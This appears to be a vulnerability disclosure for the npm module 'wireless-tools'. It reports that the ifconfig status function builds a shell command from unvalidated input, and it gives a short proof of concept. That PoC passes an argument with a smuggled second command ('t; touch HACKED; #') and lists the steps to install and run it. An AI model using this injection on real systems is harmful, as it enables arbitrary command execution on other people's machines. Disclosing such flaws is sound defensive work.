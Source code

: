 # :bug: Description

The `wireless-tools` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var hd = require('wireless-tools/ifconfig');
hd.status("t; touch HACKED; #", function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wireless-tools # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created

